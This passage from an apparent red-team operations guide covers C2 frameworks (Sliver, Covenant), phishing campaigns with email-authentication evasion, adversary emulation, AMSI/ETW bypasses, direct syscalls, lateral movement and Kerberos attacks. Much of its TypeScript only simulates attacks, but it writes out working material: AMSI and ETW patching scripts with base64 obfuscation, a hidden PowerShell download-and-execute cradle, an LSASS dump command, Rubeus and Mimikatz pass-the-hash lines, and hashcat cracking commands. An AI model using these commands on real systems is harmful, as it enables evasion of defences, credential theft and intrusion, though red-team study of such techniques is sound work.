  snapshot(): string { return JSON.stringify({ operators: this.operators.size, implants: Array.from(this.implants.values()).filter(i=>i.active).length, armory: this.armory.size }); }
}
```

### 3.4 Sliver Armory — Popular Packages


| Package | Type | Description |
|---------|------|-------------|
| SharpHound | Assembly | BloodHound AD ingestor for AD topology data |
| Rubeus | Assembly | Kerberos abuse: kerberoast, asreproast, asktgt, s4u |
| Seatbelt | Assembly | Host security enumeration |
| SharpUp | Assembly | Privilege escalation checks for Windows |
| Nanodump | BOF | LSASS minidump without touching disk |
| MimiKatz | Extension | Legacy credential extraction |

---

## 4. C2 Frameworks — Covenant

### 4.1 Covenant Architecture


Covenant is a .NET-based C2 framework focusing on ASP.NET Core, gRPC-based staging, and dynamic C# compilation. Tasks compile as C# at runtime on the server and execute on the grunt (implant).

**Key Concepts:**
- Grunt: The Covenant implant (C#, .NET assembly)
- Bridge: Grunt-to-listener protocol (HTTP/HTTPS with gRPC)
- Stage1->Stage2: Staged payload delivery
- Dynamic Compilation: Tasks compile at runtime on server
- Launcher: Bootstrap methods (binary, PowerShell, MSBuild, VBA)

### 4.2 Covenant Setup Guide


```bash
# Install Covenant (Linux)
sudo apt install dotnet-sdk-8.0 -y
git clone https://github.com/cobbr/Covenant
cd Covenant/Covenant
dotnet build
dotnet run --urls "https://0.0.0.0:7443"
# Default: admin / Admin123! (CHANGE IMMEDIATELY)

# Listener: Web UI > Listeners > Create > HTTP Profile
# Launcher: Launchers > Create > Binary (or PowerShell, MSBuild, etc.)
# Grunt interaction: Grunts > Click grunt > Interact

# PowerShell stager output:
# powershell -NoP -NonI -W Hidden -Exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://cdn.acme-cdn.com/connect')"
```

### 4.3 Covenant Dynamic Task Compilation (TypeScript)


```typescript
// covenant-task-compiler.ts — Dynamic C# Compilation

interface CovenantTask { id: string; name: string; sourceCode: string; references: string[]; outputType: string; }
interface CompiledTask { taskId: string; assemblyBytes: Buffer; entryPoint: string; compileTimeMs: number; }

class CovenantCompiler {
  private tasks: Map<string, CovenantTask> = new Map();

  register(task: CovenantTask): void { this.tasks.set(task.id, task); }

  compile(taskId: string): CompiledTask | null {
    const t = this.tasks.get(taskId); if (!t) return null;
    const start = Date.now();
    const bytes = Buffer.from(t.sourceCode);
    const ep = this.findEntry(t.sourceCode) || t.name + '.Main';
    return { taskId, assemblyBytes: bytes, entryPoint: ep, compileTimeMs: Date.now() - start };
  }

  generateLauncher(taskId: string, type: 'powershell' | 'msbuild'): string {
    const c = this.compile(taskId); if (!c) return '';
    const b64 = c.assemblyBytes.toString('base64');
    if (type === 'powershell') return '$bytes=[System.Convert]::FromBase64String("' + b64 + '");[System.Reflection.Assembly]::Load($bytes).EntryPoint.Invoke($null,@(,[string[]]@()))';
    return '<?xml version="1.0"?><Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003"><Target Name="Build"><Csc Sources="$(MSBuildProjectDirectory)\\' + taskId + '.cs" OutputAssembly="$(MSBuildProjectDirectory)\\' + taskId + '.exe"/></Target></Project>';
  }

  createTask(name: string, source: string): string {
    const id = 'TASK-' + Date.now().toString(36);
    this.register({ id, name, sourceCode: source, references: ['System.dll'], outputType: 'exe' });
    return id;
  }

  private findEntry(source: string): string | null {
    const m = source.match(/static\s+void\s+Main\s*\(/);
    if (m) { const cls = source.slice(0, m.index).match(/class\s+(\w+)/); const ns = source.slice(0, m.index).match(/namespace\s+(\w+(?:\.\w+)*)/); if (cls) return ns ? ns[1] + '.' + cls[1] + '.Main' : cls[1] + '.Main'; }
    return null;
  }
}
```

---

## 5. Phishing Operations

### 5.1 GoPhish Deployment


GoPhish is the most widely used open-source phishing framework. It provides a web UI for managing campaigns, sending emails, hosting landing pages, and tracking results.

**SMTP Relay Setup:**

| Provider | Host | Port | Auth | Notes |
|----------|------|------|------|-------|
| SendGrid | smtp.sendgrid.net | 587 | API Key | Requires domain verification |
| AWS SES | email-smtp.us-east-1.amazonaws.com | 587 | SMTP creds | Requires domain verification |
| Mailgun | smtp.mailgun.org | 587 | SMTP creds | Good reputation, easy setup |
| Postfix | self-hosted | 587 | SASL | Full control, IP warmup needed |

**SPF/DKIM/DMARC Evasion Strategies:**

1. Domain Shadowing: Create subdomain on compromised DNS (login.acme-company.com)
2. Lookalike Domain: Register acme-company.xyz (homoglyph attack with Cyrillic chars)
3. Compromised Account: Send from legitimate user account within target domain
4. SPF Bypass: Use VPS IP already included in target SPF record
5. DMARC Bypass: Send to subdomain without DMARC policy (not inherited from parent)
6. Reputable ESP: Use SendGrid/Mailgun with authenticated domain transfer
7. IP Warming: Gradually increase send volume from new IP over 2-4 weeks

**GoPhish API Campaign Creation:**

```bash
curl -k -X POST https://localhost:3333/api/smtp/ \
  -H "Authorization: API-KEY" -H "Content-Type: application/json" \
  -d '{"name":"Acme IT","interface_type":"SMTP","host":"smtp.sendgrid.net:587","username":"apikey","password":"SG.xxx","from_address":"it@acme-company.com"}'
```

### 5.2 Phishing Campaign Manager (TypeScript)


```typescript
// phishing-campaign-manager.ts — Campaign Orchestration with Tracking

interface EmailTemplate {
  id: string; name: string; subject: string; htmlBody: string;
  fromAddress: string; fromName: string; trackingPixelEnabled: boolean;
}

interface Recipient {
  email: string; firstName: string; lastName: string;
  position: string; department: string;
}

interface PhishingCampaign {
  id: string; name: string; status: 'draft' | 'running' | 'completed';
  template: EmailTemplate; recipients: Recipient[];
  url: string; sent: number; opened: number; clicked: number; submitted: number;
}

class PhishingManager {
  private campaigns: Map<string, PhishingCampaign> = new Map();
  private events: any[] = [];

  createCampaign(config: {
    name: string; template: EmailTemplate; recipients: Recipient[]; url: string;
  }): PhishingCampaign {
    const c: PhishingCampaign = {
      id: `PH-${Date.now().toString(36)}`, name: config.name,
      status: 'draft', template: config.template, recipients: config.recipients,
      url: config.url, sent: 0, opened: 0, clicked: 0, submitted: 0,
    };
    this.campaigns.set(c.id, c);
    return c;
  }

  generateTrackingPixel(email: string): string {
    const pid = `px-${Buffer.from(email).toString('base64').slice(0, 12)}-${Math.random().toString(36).slice(2, 8)}`;
    return '';
  }

  private url = 'https://phish.acme-campaign.net';

  personalize(c: PhishingCampaign, r: Recipient): string {
    let body = c.template.htmlBody;
    const subs: Record<string, string> = {
      '{{FIRST}}': r.firstName, '{{LAST}}': r.lastName,
      '{{EMAIL}}': r.email,
      '{{URL}}': c.url + '/login?rid=' + Buffer.from(r.email).toString('base64'),
    };
    for (const [k, v] of Object.entries(subs)) body = body.replaceAll(k, v);
    if (c.template.trackingPixelEnabled) body += this.generateTrackingPixel(r.email);
    return body;
  }

  async launch(campaignId: string): Promise<void> {
    const c = this.campaigns.get(campaignId); if (!c || c.status !== 'draft') return;
    c.status = 'running';
    for (const r of c.recipients) {
      console.log('[SEND] -> ' + r.email + ': ' + c.template.subject);
      c.sent++;
      await new Promise(r => setTimeout(r, 100 + Math.random() * 50));
    }
    c.status = 'completed';
    console.log('Campaign complete: ' + c.sent + ' sent');
  }

  trackEvent(campaignId: string, type: 'opened' | 'clicked' | 'submitted', email: string): void {
    const c = this.campaigns.get(campaignId); if (!c) return;
    this.events.push({
      timestamp: new Date(), type, email,
      ip: '10.0.' + Math.floor(Math.random() * 255) + '.' + Math.floor(Math.random() * 255),
    });
    if (type === 'opened') c.opened++;
    else if (type === 'clicked') c.clicked++;
    else if (type === 'submitted') c.submitted++;
  }

  getStats(id: string): string {
    const c = this.campaigns.get(id)!;
    const or = c.sent > 0 ? ((c.opened / c.sent) * 100).toFixed(1) : '0';
    const cr = c.opened > 0 ? ((c.clicked / c.opened) * 100).toFixed(1) : '0';
    return 'Sent: ' + c.sent + ' | Opened: ' + c.opened + ' (' + or + '%) | Clicked: ' + c.clicked + ' (' + cr + '%) | Submitted: ' + c.submitted;
  }
}

function phishDemo() {
  const m = new PhishingManager();
  const c = m.createCampaign({
    name: 'Q1 Phishing Sim', url: 'https://phish.acme-campaign.net',
    template: {
      id: 'T1', name: 'Password Expiry',
      subject: 'Action: Password Expires in 24 Hours',
      htmlBody: '<p>Dear {{FIRST}}, your password expires soon. <a href="{{URL}}">Verify Now</a></p>',
      fromAddress: 'it@acme-company.com', fromName: 'IT Security',
      trackingPixelEnabled: true,
    },
    recipients: [
      { email: 'john@acme.com', firstName: 'John', lastName: 'Doe', position: 'CFO', department: 'Finance' },
      { email: 'jane@acme.com', firstName: 'Jane', lastName: 'Smith', position: 'Controller', department: 'Finance' },
    ],
  });
  m.trackEvent(c.id, 'opened', 'john@acme.com');
  m.trackEvent(c.id, 'clicked', 'john@acme.com');
  m.trackEvent(c.id, 'submitted', 'john@acme.com');
  console.log(m.getStats(c.id));
}
// phishDemo();
```

### 5.3 Tracking Pixel Architecture


```
Email Client ---> Tracking Pixel (1x1 img) ---> GoPhish Server ---> Event Log (IP, UA, Time)
```

When the email client loads the tracking pixel (a 1x1 transparent GIF), the GoPhish server logs the request details including IP address, user-agent, and timestamp. This provides open-rate analytics and geolocation data.

---

## 6. Adversary Emulation

### 6.1 MITRE ATT&CK Mapping


Adversary emulation executes specific threat actor TTPs to test detection coverage. The MITRE ATT&CK framework provides a structured taxonomy.

```typescript
// adversary-emulation.ts — MITRE ATT&CK Mapper and Atomic Tests

interface MITRETechnique {
  id: string; name: string; tactic: string; platform: string[];
  mitigations: string[]; detections: string[];
}

interface ThreatActor {
  name: string; aliases: string[]; origin: string; motivation: string;
  techniquesUsed: { techniqueId: string; procedure: string }[];
  knownCampaigns: string[];
}

interface AtomicTest {
  id: string; technique: string; name: string;
  command: string; cleanupCommand: string; elevationRequired: boolean;
}

class MITREMapper {
  private techniques: Map<string, MITRETechnique> = new Map();
  private actors: Map<string, ThreatActor> = new Map();
  private tests: Map<string, AtomicTest> = new Map();

  constructor() {
    this.techniques.set('T1059.001', {
      id: 'T1059.001', name: 'PowerShell', tactic: 'Execution',
      platform: ['Windows'], mitigations: ['Constrained Language'],
      detections: ['Event 4688'],
    });
    this.techniques.set('T1003.001', {
      id: 'T1003.001', name: 'LSASS Memory', tactic: 'Credential Access',
      platform: ['Windows'], mitigations: ['Credential Guard'],
      detections: ['Event 4663'],
    });
    this.techniques.set('T1558.003', {
      id: 'T1558.003', name: 'Kerberoasting', tactic: 'Credential Access',
      platform: ['Windows'], mitigations: ['gMSA', 'Strong passwords'],
      detections: ['Event 4769 RC4'],
    });
    this.techniques.set('T1021.002', {
      id: 'T1021.002', name: 'SMB Admin Shares', tactic: 'Lateral Movement',
      platform: ['Windows'], mitigations: ['SMB signing'],
      detections: ['Event 5140'],
    });
    this.techniques.set('T1071.001', {
      id: 'T1071.001', name: 'Web Protocols', tactic: 'C2',
      platform: ['Windows', 'Linux'], mitigations: ['SSL inspection'],
      detections: ['JA3/S', 'Beaconing'],
    });
    this.techniques.set('T1543.003', {
      id: 'T1543.003', name: 'Windows Service', tactic: 'Persistence',
      platform: ['Windows'], mitigations: ['Service ACLs'],
      detections: ['Event 7045'],
    });
    this.techniques.set('T1204.002', {
      id: 'T1204.002', name: 'Malicious File', tactic: 'Execution',
      platform: ['Windows'], mitigations: ['User training'],
      detections: ['Event 4688', 'AMSI'],
    });

    this.actors.set('APT29', {
      name: 'APT29', aliases: ['Cozy Bear', 'Nobelium'], origin: 'Russia',
      motivation: 'Intelligence gathering (SVR)',
      techniquesUsed: [
        { techniqueId: 'T1059.001', procedure: 'PowerShell Empire implant' },
        { techniqueId: 'T1071.001', procedure: 'HTTPS C2 via fake blog infrastructure' },
        { techniqueId: 'T1003.001', procedure: 'Mimikatz credential extraction' },
        { techniqueId: 'T1543.003', procedure: 'Service persistence in SolarWinds Orion' },
        { techniqueId: 'T1021.002', procedure: 'SMB propagation with stolen hashes' },
      ],
      knownCampaigns: ['SolarWinds (2020)', 'Hacking Team (2015)', 'DNC (2016)'],
    });

    this.actors.set('APT41', {
      name: 'APT41', aliases: ['WinNTI', 'Barium'], origin: 'China',
      motivation: 'Cyber espionage + financial gain',
      techniquesUsed: [
        { techniqueId: 'T1059.001', procedure: 'PowerShell download cradle' },
        { techniqueId: 'T1204.002', procedure: 'Spearphishing with ISO/LNK payloads' },
        { techniqueId: 'T1003.001', procedure: 'Procdump for LSASS' },
        { techniqueId: 'T1021.002', procedure: 'SMB lateral movement' },
        { techniqueId: 'T1071.001', procedure: 'HTTPS C2 with custom protocol' },
      ],
      knownCampaigns: ['Video game industry (2017)', 'COVID-19 research (2020)', 'VPN exploitation (2021)'],
    });

    this.tests.set('AT-201', {
      id: 'AT-201', technique: 'T1059.001', name: 'PowerShell Download Cradle',
      command: 'powershell -NoP -NonI -W Hidden -Exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(\'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1\')"',
      cleanupCommand: 'Remove-Item "$env:TEMP\\atomic-*.txt" -EA SilentlyContinue',
      elevationRequired: false,
    });
    this.tests.set('AT-301', {
      id: 'AT-301', technique: 'T1003.001', name: 'LSASS Dump via Comsvcs',
      command: 'rundll32.exe C:\\Windows\\System32\\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\\Windows\\Temp\\lsass.dmp full',
      cleanupCommand: 'Remove-Item C:\\Windows\\Temp\\lsass.dmp -EA SilentlyContinue',
      elevationRequired: true,
    });
    this.tests.set('AT-401', {
      id: 'AT-401', technique: 'T1558.003', name: 'Kerberoasting with Rubeus',
      command: 'Rubeus.exe kerberoast /outfile:C:\\Windows\\Temp\\kerb-hashes.txt',
      cleanupCommand: 'Remove-Item C:\\Windows\\Temp\\kerb-hashes.txt -EA SilentlyContinue',
      elevationRequired: false,
    });
  }

  getPlan(actorName: string): string {
    const actor = this.actors.get(actorName);
    if (!actor) return 'Actor not found';
    const tests = actor.techniquesUsed
      .map(t => Array.from(this.tests.values()).filter(at => at.technique === t.techniqueId))
      .flat();
    return 'Emulation Plan: ' + actor.name + '\n' +
      tests.map((t, i) => '  ' + (i + 1) + '. ' + t.name + ': ' + t.command).join('\n');
  }
}
```

### 6.2 APT Emulation Procedures


**APT29 (Cozy Bear / Nobelium) — SolarWinds Campaign:**

Phase 1 — Initial Access: Compromise SolarWinds Orion build system, insert SUNBURST backdoor into Orion DLLs, digitally sign malicious update. Phase 2 — C2 Communication: Obfuscated HTTP C2 with fake blog infrastructure, domain avsvmcloud[.]com, beacon interval 12-24 hours with jitter. Phase 3 — Lateral Movement: TEARDROP and RAINDROP loaders, Mimikatz for credential extraction, SMB and WMI propagation. Phase 4 — Exfiltration: Stage data in compromised on-prem servers, exfiltrate over encrypted HTTPS channels, target email data (OWA/EWS) and cloud provider tokens.

**APT41 (WinNTI / Barium):**

Phase 1 — Initial Access: Spearphishing with ISO/LNK files, exploit VPN appliances (CVE-2019-19781, CVE-2020-5902). Phase 2 — C2 Communication: Custom C2 protocol over HTTPS, multi-stage payload delivery. Phase 3 — Lateral Movement: WMI and PsExec with stolen credentials, GPO modification, service persistence. Phase 4 — Exfiltration: Data staged to internal server, exfil over HTTPS and DNS tunneling, target game source code, IP, user databases.

---

## 7. Evasion Techniques

### 7.1 AMSI Bypass


The Anti-Malware Scan Interface (AMSI) allows Windows apps to request malware scans of content. PowerShell, VBA, and .NET all integrate with AMSI. Bypasses modify AmsiScanBuffer in amsi.dll to always return AMSI_RESULT_CLEAN.

```typescript
// amsi-bypass-generator.ts — AMSI/ETW Bypass String Generator

interface BypassTechnique {
  name: string; method: 'patching' | 'reflection' | 'registry';
  detectionRisk: 'low' | 'medium' | 'high'; effectiveness: 'partial' | 'full';
  script: string;
}

class AmsiBypassGenerator {
  private techniques: BypassTechnique[] = [
    {
      name: 'AmsiScanBuffer Patch',
      method: 'patching', detectionRisk: 'high', effectiveness: 'full',
      script: '[Runtime.InteropServices.Marshal]::Copy(@(0x31,0xC0,0xC3),0,[Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer([Runtime.InteropServices.Marshal]::GetProcAddress([Runtime.InteropServices.Marshal]::LoadLibrary("amsi.dll"),"AmsiScanBuffer"),[Type]([Object])),3)',
    },
    {
      name: 'AMSI Reflection Bypass',
      method: 'reflection', detectionRisk: 'medium', effectiveness: 'full',
      script: '[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiInitFailed","NonPublic,Static").SetValue($null,$true)',
    },
    {
      name: 'Registry Disable',
      method: 'registry', detectionRisk: 'medium', effectiveness: 'partial',
      script: 'Set-ItemProperty -Path "HKLM:\\SOFTWARE\\Microsoft\\AMSI\\Providers" -Name "{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Value "" -Force',
    },
  ];

  generateObfuscated(techniqueName?: string): string {
    const techs = techniqueName
      ? this.techniques.filter(t => t.name.toLowerCase().includes(techniqueName.toLowerCase()))
      : this.techniques;
    if (techs.length === 0) return '';
    const tech = techs[Math.floor(Math.random() * techs.length)];
    const b64 = Buffer.from(tech.script, 'utf-8').toString('base64');
    const variants = [
      tech.script,
      'IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("' + b64 + '")))',
      '$a="' + b64 + '";$b=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($a));IEX $b',
    ];
    return variants[Math.floor(Math.random() * variants.length)];
  }

  generateETWBypass(): string {
    return '[Runtime.InteropServices.Marshal]::Copy(@(0x48,0x31,0xC0,0xC3),0,[Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer([Runtime.InteropServices.Marshal]::GetProcAddress([Runtime.InteropServices.Marshal]::LoadLibrary("ntdll.dll"),"EtwEventWrite"),[Type]([Object])),4)';
  }

  generateFull(): string {
    return '# Full Bypass Chain\n' + this.techniques[0].script + '\n' + this.generateETWBypass() + '\n' + this.techniques[1].script;
  }
}
```

### 7.2 Syscall Direct — Hell's Gate and Halo's Gate


Modern EDR hooks ntdll.dll functions to monitor syscalls. Direct syscall techniques bypass these hooks by invoking syscalls directly without going through ntdll.

- **Hell's Gate:** Dynamically finds syscall numbers by parsing ntdll.dll in memory. Extracts the mov eax, SSN; syscall; ret instructions from unhooked regions.
- **Halo's Gate:** Extension that handles inlined hooks. Scans backward from the hooked address to find the original syscall.

```typescript
// syscall-direct.ts — Hell's Gate and Halo's Gate Simulation

interface SyscallEntry {
  syscallNumber: number;
  functionName: string;
  hooked: boolean;
}

class HellGateResolver {
  private cache: Map<string, SyscallEntry> = new Map();

  constructor() {
    const syscalls = [
      { name: 'NtOpenProcess', ssn: 0x26, hooked: true },
      { name: 'NtAllocateVirtualMemory', ssn: 0x18, hooked: true },
      { name: 'NtProtectVirtualMemory', ssn: 0x50, hooked: true },
      { name: 'NtWriteVirtualMemory', ssn: 0x3A, hooked: true },
      { name: 'NtCreateThreadEx', ssn: 0xC2, hooked: true },
      { name: 'NtQuerySystemInformation', ssn: 0x36, hooked: true },
      { name: 'NtClose', ssn: 0x0F, hooked: false },
      { name: 'NtDelayExecution', ssn: 0x34, hooked: false },
      { name: 'NtCreateFile', ssn: 0x55, hooked: false },
    ];
    for (const sc of syscalls) {
      this.cache.set(sc.name, { syscallNumber: sc.ssn, functionName: sc.name, hooked: sc.hooked });
    }
  }

  hellGate(name: string): SyscallEntry | null {
    const e = this.cache.get(name);
    return e || null;
  }

  halosGate(name: string): SyscallEntry | null {
    const e = this.cache.get(name);
    if (!e || !e.hooked) return e;
    // Scan backward for clean syscall
    const entries = Array.from(this.cache.entries());
    const idx = entries.findIndex(([n]) => n === name);
    for (let i = Math.max(0, idx - 5); i < idx; i++) {
      if (!entries[i][1].hooked) {
        return { ...e, syscallNumber: entries[i][1].syscallNumber, functionName: name + ' (via ' + entries[i][0] + ')' };
      }
    }
    return null;
  }

  getStub(e: SyscallEntry): number[] {
    return [0xB8, e.syscallNumber, 0x00, 0x00, 0x00, 0x0F, 0x05, 0xC3]; // mov eax, SSN; syscall; ret
  }

  dump(): void {
    for (const [n, e] of this.cache) {
      console.log(n.padEnd(30) + ' SSN: 0x' + e.syscallNumber.toString(16).padStart(2, '0') + (e.hooked ? ' [HOOKED]' : ' [CLEAN]'));
    }
  }
}

// Sandbox Detection
class SandboxDetector {
  private checks: { name: string; suspicious: boolean }[] = [
    { name: 'CPU cores <= 2', suspicious: false },
    { name: 'RAM < 4GB', suspicious: false },
    { name: 'Screen res 1024x768', suspicious: false },
    { name: 'VM MAC prefix', suspicious: true },
    { name: 'Processes: vmtoolsd, procmon', suspicious: true },
    { name: 'Username: admin/sandbox/malware', suspicious: true },
    { name: 'Not domain-joined', suspicious: true },
  ];

  isSandboxed(): boolean {
    return this.checks.filter(c => c.suspicious).length >= 3;
  }

  report(): string {
    return 'Sandboxed: ' + this.isSandboxed() + '\n' +
      this.checks.map(c => (c.suspicious ? '[!]' : '[✓]') + ' ' + c.name).join('\n');
  }
}
```

### 7.3 Lateral Movement Kerberos Attack Chain Diagram




---

## 8. Lateral Movement

### 8.1 Lateral Movement Methods


| Method | Protocol | Port | Auth | Detection Risk |
|--------|----------|------|------|----------------|
| WMI | DCOM/RPC | 135, 445 | NTLM/Kerberos | Medium |
| PsExec | SMB | 445 | NTLM/Kerberos | High |
| WinRM | HTTP/HTTPS | 5985/5986 | Kerberos/NTLM | Low-Medium |
| DCOM | RPC | 135 | NTLM/Kerberos | Medium |
| SMB Exec | SMB | 445 | NTLM/Kerberos | High |
| SchTasks | RPC | 135, 445 | NTLM/Kerberos | Medium |

### 8.2 Lateral Movement Executor (TypeScript)


```typescript
// lateral-movement.ts — WMI, SMB, WinRM Abstractions

interface Target {
  hostname: string;
  ip: string;
  domain: string;
  username: string;
  hash?: string;
  password?: string;
}

interface ExecutionResult {
  success: boolean;
  output: string;
  method: string;
  duration: number;
}

type LateralMethod = 'wmi' | 'smbexec' | 'winrm' | 'psexec' | 'dcom' | 'scheduledtask';

interface LateralMovementConfig {
  method: LateralMethod;
  target: Target;
  command: string;
  timeout: number;
}

class LateralMovementExecutor {
  async execute(config: LateralMovementConfig): Promise<ExecutionResult> {
    const start = Date.now();
    console.log('[LATERAL] Attempting ' + config.method + ' on ' + config.target.hostname);

    switch (config.method) {
      case 'wmi': return this.wmiExec(config);
      case 'smbexec': return this.smbExec(config);
      case 'winrm': return this.winrmExec(config);
      case 'psexec': return this.psExec(config);
      case 'dcom': return this.dcomExec(config);
      case 'scheduledtask': return this.scheduledTaskExec(config);
      default: return { success: false, output: 'Unknown method', method: config.method, duration: 0 };
    }
  }

  private async wmiExec(config: LateralMovementConfig): Promise<ExecutionResult> {
    // wmic /node:TARGET /user:DOMAIN\USER process call create "COMMAND"
    console.log('[WMI] wmic /node:' + config.target.hostname + ' process call create "' + config.command + '"');
    return { success: true, output: 'Process created via WMI', method: 'wmi', duration: Date.now() - config.timeout };
  }

  private async smbExec(config: LateralMovementConfig): Promise<ExecutionResult> {
    // sc \\TARGET create SERVICE binPath= "COMMAND" && sc \\TARGET start SERVICE
    console.log('[SMB] sc \\\\' + config.target.hostname + ' create ...');
    return { success: true, output: 'Service created via SMB', method: 'smbexec', duration: Date.now() - config.timeout };
  }

  private async winrmExec(config: LateralMovementConfig): Promise<ExecutionResult> {
    // winrs -r:TARGET -u:USER -p:PASS COMMAND
    console.log('[WinRM] winrs -r:' + config.target.hostname + ' ' + config.command);
    return { success: true, output: 'Command executed via WinRM', method: 'winrm', duration: Date.now() - config.timeout };
  }

  private async psExec(config: LateralMovementConfig): Promise<ExecutionResult> {
    // psexec \\TARGET -u USER -p PASS cmd /c COMMAND
    console.log('[PsExec] psexec \\\\' + config.target.hostname + ' ...');
    return { success: true, output: 'Executed via PsExec', method: 'psexec', duration: Date.now() - config.timeout };
  }

  private async dcomExec(config: LateralMovementConfig): Promise<ExecutionResult> {
    // DCOM: GetTypeFromProgID with MM20.Application or Excel.Application
    console.log('[DCOM] DCOM activation on ' + config.target.hostname);
    return { success: true, output: 'DCOM execution successful', method: 'dcom', duration: Date.now() - config.timeout };
  }

  private async scheduledTaskExec(config: LateralMovementConfig): Promise<ExecutionResult> {
    // schtasks /CREATE /S TARGET /SC ONCE /TN "Task" /TR "COMMAND" /ST 00:00
    console.log('[SchTask] Scheduled task on ' + config.target.hostname);
    return { success: true, output: 'Scheduled task created and triggered', method: 'scheduledtask', duration: Date.now() - config.timeout };
  }

  async executeMultiple(targets: Target[], command: string, method: LateralMethod): Promise<ExecutionResult[]> {
    const results: ExecutionResult[] = [];
    for (const target of targets) {
      try {
        const r = await this.execute({ method, target, command, timeout: 30000 });
        results.push(r);
      } catch (err) {
        results.push({ success: false, output: String(err), method, duration: 0 });
      }
    }
    return results;
  }
}

// Pass-the-Hash Tool (NTLM hash injection simulation)
interface PtHCredential {
  target: Target;
  ntlmHash: string;  // 32 hex chars
}

class PassTheHashTool {
  // PtH allows authentication using NTLM hash instead of plaintext password
  // Works against SMB, WMI, WinRM, RDP (with Restricted Admin mode)
  execute(cred: PtHCredential, command: string): string {
    console.log('[PtH] Attempting authentication with NTLM hash: ' + cred.ntlmHash.slice(0, 16) + '...');
    console.log('[PtH] Technique: sekurlsa::pth /user:' + cred.target.username + ' /domain:' + cred.target.domain + ' /ntlm:' + cred.ntlmHash);
    return 'PtH executed against ' + cred.target.hostname + ': ' + command;
  }

  // Overpass-the-Hash: convert NTLM hash to Kerberos TGT
  overpassTheHash(cred: PtHCredential): string {
    console.log('[OPtH] Converting NTLM hash to Kerberos TGT for ' + cred.target.username);
    // Uses asktgt from Rubeus or similar
    return 'Rubeus.exe asktgt /user:' + cred.target.username + ' /domain:' + cred.target.domain + ' /rc4:' + cred.ntlmHash + ' /ptt';
  }
}
```

---

## 9. Kerberos Attacks

### 9.1 Kerberos Attack Overview


Kerberos is the primary authentication protocol in Active Directory. Understanding its weaknesses is critical for red team operations targeting Windows domains.

| Attack | Technique | Required Privilege | Impact |
|--------|-----------|-------------------|--------|
| Kerberoasting | TGS-REP request for SPN accounts | Domain user | Service account hash (offline crack) |
| AS-REP Roasting | AS-REP request (no preauth users) | Domain user | User hash (offline crack) |
| Silver Ticket | Forge TGS with service hash | Service account hash | Access to specific service |
| Golden Ticket | Forge TGT with KRBTGT hash | Domain Admin / KRBTGT hash | Full domain compromise |
| DCSync | Replicate NTDS.dit via DRSUAPI | Domain Admin / Replication rights | All hashes in domain |
| Skeleton Key | Patch domain controller | Domain Admin | Backdoor password for all users |
| Overpass-the-Hash | Convert NTLM to Kerberos ticket | NTLM hash | Kerberos auth without password |

### 9.2 Kerberos Ticket Manipulation Library (TypeScript)


```typescript
// kerberos-attacks.ts — Kerberos Ticket Manipulation and Attack Library

interface KerberosTicket {
  ticketType: 'TGT' | 'TGS';
  domain: string;
  username: string;
  service?: string;        // For TGS — SPN
  encryption: 'RC4' | 'AES128' | 'AES256' | 'DES';
  hash: string;            // Encrypted ticket hash
  validFrom: Date;
  validUntil: Date;
  flags: string[];
  authorizationData?: Buffer;
}

interface ServiceAccountTarget {
  spn: string;             // e.g., MSSQLSvc/sqlsvc.domain.local
  samAccountName: string;
  domain: string;
  hash: string | null;     // Cracked hash
  crackable: boolean;
}

// Kerberoasting
class KerberoastingEngine {
  // Request TGS for service accounts and extract encrypted hash
  async enumerateSPNs(domain: string): Promise<ServiceAccountTarget[]> {
    console.log('[Kerberoast] Enumerating SPNs in ' + domain);
    // Simulated SPN enumeration
    return [
      { spn: 'MSSQLSvc/sqlsvc.domain.local', samAccountName: 'sql_service', domain: 'domain.local', hash: null, crackable: true },
      { spn: 'HTTP/webapp.domain.local', samAccountName: 'web_service', domain: 'domain.local', hash: null, crackable: true },
      { spn: 'CIFS/fileserver.domain.local', samAccountName: 'file_svc', domain: 'domain.local', hash: null, crackable: true },
      { spn: 'LDAP/dc01.domain.local', samAccountName: 'dc_service', domain: 'domain.local', hash: null, crackable: false },
    ];
  }

  async requestTGS(target: ServiceAccountTarget): Promise<KerberosTicket> {
    console.log('[Kerberoast] Requesting TGS for ' + target.spn);
    // In real: Rubeus.exe kerberoast /user:user /domain:domain /outfile:hashes.txt
    const ticket: KerberosTicket = {
      ticketType: 'TGS',
      domain: target.domain,
      username: target.samAccountName,
      service: target.spn,
      encryption: 'RC4',
      hash: '$krb5tgs$23$*' + target.samAccountName + '$' + target.domain + '$' + target.spn + '*$' + this.randomHex(64),
      validFrom: new Date(),
      validUntil: new Date(Date.now() + 86400000),
      flags: ['forwardable', 'renewable'],
    };
    return ticket;
  }

  // Crack with hashcat
  crackCommand(hashFile: string, wordlist: string): string {
    return 'hashcat -m 13100 ' + hashFile + ' ' + wordlist + ' --force -O';
  }

  private randomHex(len: number): string {
    return Array.from({ length: len }, () => '0123456789abcdef'[Math.floor(Math.random() * 16)]).join('');
  }
}

// AS-REP Roasting
class ASREPRoastingEngine {
  async findNoPreauthUsers(domain: string): Promise<string[]> {
    console.log('[AS-REP] Finding users without pre-authentication in ' + domain);
    return ['user_nopreauth', 'svc_account', 'backup_user'];
  }

  async requestASREP(username: string, domain: string): Promise<string> {
    console.log('[AS-REP] Requesting AS-REP for ' + username);
    const hash = '$krb5asrep$23$' + username + '@' + domain + ':' + this.randomHex(64);
    return hash;
  }

  crackCommand(hashFile: string, wordlist: string): string {
    return 'hashcat -m 18200 ' + hashFile + ' ' + wordlist + ' --force -O';
  }

  private randomHex(len: number): string {
    return Array.from({ length: len }, () => '0123456789abcdef'[Math.floor(Math.random() * 16)]).join('');
  }
}

// Silver and Golden Ticket Forging
class TicketForgeryEngine {
  // Silver Ticket — requires service account hash
  forgeSilverTicket(config: {
    domain: string;
    username: string;
    service: string;        // e.g., 'cifs', 'http', 'mssql'
    serviceHash: string;    // NTLM hash of service account
    targetHost: string;     // e.g., 'fileserver.domain.local'
    sid: string;            // Domain SID
  }): KerberosTicket {
    console.log('[Silver] Forging TGS for ' + config.service + '/' + config.targetHost);
    return {
